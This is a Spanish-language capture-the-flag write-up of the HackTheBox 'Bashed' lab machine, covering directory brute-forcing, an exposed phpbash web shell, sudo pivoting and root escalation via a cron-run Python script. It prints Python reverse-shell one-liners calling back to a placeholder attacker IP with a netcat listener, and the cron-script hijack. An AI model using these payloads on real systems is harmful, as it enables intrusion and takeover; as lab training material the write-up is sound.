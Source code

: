 ```yaml
---
title: HackTheBox Bashed
date: 2021-06-13 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/banner.png 
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [cronjobs, scripts, python, suid, apache]
---
```


***

**Machine IP**: 10.10.10.68

**DATE**  : 13/06/2021

***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/nmap.png)

Como vemos solo el puerto 80 está abierto, así que investigaremos en la web para ver si encontramos algo interesante

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/web.png)

En la web no encontré nada :,c, pero `phpbash` me da una pista.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/phpbash.png)

Como vemos es un frontend normal,pero el nombre `php bash` es algo sospechoso  al parecer no muestra directorios, por eso le hacemos un `brute force` para enumerar los directorios con `gobuster`.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200                                                               1 ⨯ 2 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 03:44:34 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]   
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]   
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

Como vemos nos arroja muchos directorios, examinando cada uno de ellos pude encontrar algo interesante en /dev, dos archivos con el nombre de la pagina en si phpbash

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/indexweb.png)


Al abrir el segundo archivo nos carga una shell con el usuario `www-data` , buscamos el archivo user.txt con el siguiente comando

```bash
find / -type f -name "user.txt" 2>/dev/null
```

y bingo, lo encontramos, ahora a tratar de obtener una shell interactiva para poner comandos basicos.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/wwwdata.png)
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/usertxt.png)

Primero intentaremos ver si hay algunos binarios con permisos `SUID` para ejecutarlos con permisos root, para eso usamos en comando:

```bash
sudo -l
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/sudol.png)

Vemos que el usuario `Scriptmanager` puede ejecutar cualquier comando en su sesion, entonces vamos a invocar una shell en nuestra maquina con `netcat`, por el lado de nuestra maquina usariamos el comando 

```bash
nc -nlvp 4448
```

Y por el lado de la phpbash, ejecutamos el siguiente comando para establecer una `shell reversa` con python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("nuestraip",4448));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
```

Y así quedaria nuestra shell, luego nos logeamos como `scriptmanager` con una shell bash con el comando

```bash
sudo -u scriptmanager /bin/bash
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/accesscript.png)

Luego hacemos el tratamiento de la tty para que nuestra shell sea interactiva con los siguientes comandos

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen-256color 
\[Ctrl Z\] 
stty raw -echo 
fg 
\[INTRO\] 
export TERM=screen
```

## Escalamiento de privilegios a root

Haremos un ls al directorio raiz y encontramos un directorio llamado scripts con solo permiso para scriptmanager, entramos para ver que archivos o directorios interesantes tiene.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/privilegesscript.png)

Como vemos hay un archivo `test.py` que pertenece al nuestro usuario y un txt que pertenece a root , cuando nos encontramos con estas situaciones, debemos considerar que una opción es que hay tareas `cron` o automáticas que se realizan cada cierto tiempo, por eso en esta caso el script está siendo ejecutado como root, ya que el archivo que está escribiendo es propiedad de `root`, también al revisar que la fecha de creación del archivo va cambiando, podemos afirmar que cada minuto se actualiza el `test.txt`.

Entonces tenemos que buscar que el archivo test.py contenga código malicioso para que cuando se ejecute podamos establecer una `shell reversa` en nuestra maquina con root.

Abriendo un servidor web para pasar mi archivo test.py con el siguiente código, que es el mismo que utilizamos para invocar la shell reversa, pero sin las comillas y el python -c , ya que todo irá dentro del archivo.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tuip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Luego de descargar nuestro archivo, pondremos en escucha nuestra máquina con el puerto al cual asignamos en el `test.py` y obtendremos la shell como `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/roottxt.png)

!Bingo, obtenemos sesión como `root` y podemos leer el `root.txt`

Gracias por leer.

